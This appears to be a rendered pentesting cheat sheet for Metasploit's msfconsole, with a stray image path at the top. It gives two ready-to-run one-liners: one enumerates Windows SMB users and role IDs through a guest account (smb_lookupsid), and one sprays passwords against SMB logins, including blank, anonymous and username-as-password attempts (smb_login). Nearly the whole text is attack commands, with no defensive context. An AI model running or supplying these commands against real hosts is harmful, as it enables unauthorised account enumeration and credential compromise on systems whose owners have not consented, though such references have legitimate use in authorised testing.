 ## msfconsole

### Enumeration / Recon modules

#### SMB / enumerating users

**Command - Using static guest account to enumerate users and role ID's**

```
msfconsole -q -x "use scanner/smb/smb_lookupsid;set rhosts <ip>;set MinRID 1000;set MaxRID 5000;set SMBUser Guest;set SMBPass ;set THREADS 10;set SMBDomain .;run;exit;"
```

**Command - Getting successful password spraying with enumerated users**

```
msfconsole -q -x "use scanner/smb/smb_login;set BLANK_PASSWORDS true;set ANONYMOUS_LOGIN true;set rhosts <ip>;set USER_AS_PASS true;set STOP_ON_SUCCESS true;set VERBOSE false;set PASS_FILE $(pwd)/<smb_pass.txt>; set USER_FILE $(pwd)/<file_users.txt>;run;exit;"
```